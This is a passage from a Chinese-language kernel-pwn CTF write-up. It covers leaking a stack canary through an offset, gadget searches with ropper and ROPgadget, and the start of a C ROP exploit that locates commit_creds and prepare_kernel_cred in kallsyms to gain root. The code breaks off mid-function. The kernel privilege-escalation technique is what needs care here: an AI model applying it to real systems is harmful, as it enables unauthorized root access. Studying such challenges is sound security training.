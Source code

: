 ```assembly
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0xffffffff81000000)
    RWX:      Has RWX segments
'''
```

### 泄露canary

第二个命令可以设置off的值，因为v5是rbp-0x50，可以将off设置为0x40，然后泄露canary。

> char v5[64]; // [rsp+0h] [rbp-50h] BYREF

### Gadget

Ropper

> ropper --file vmlinux --search "" > roppers.txt

Ropgadget

> ROPgadget --binary ./vmlinux > ropgadgets.txt

### Exp（ROP）

```assembly
#include<stdio.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>


size_t commit_creds = 0, prepare_kernel_cred = 0;

//cat /sys/module/core/sections/.text
//init: setsid /bin/cttyhack setuidgid 0 /bin/sh
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t vmlinux_base = 0;


size_t user_cs,user_ss,user_rflags,user_sp;
void save_status(){
   __asm__("mov user_cs,cs;"
           "mov user_ss,ss;"
           "mov user_sp,rsp;"
           "pushf;"            //push eflags
           "pop user_rflags;"
          );
}


size_t find_symbols(){
   FILE* kallsyms_fd = fopen("/tmp/kallsyms","r");
   if(kallsyms_fd < 0){
      puts("[*]open kallsyms error!");
      exit(0);
   }

   char buf[0x30] = {0};
   while(fgets(buf,0x30,kallsyms_fd)){
      if(commit_creds & prepare_kernel_cred)
         return 0;
      //find commit_creds
      if(strstr(buf,"commit_creds") && !commit_creds){
```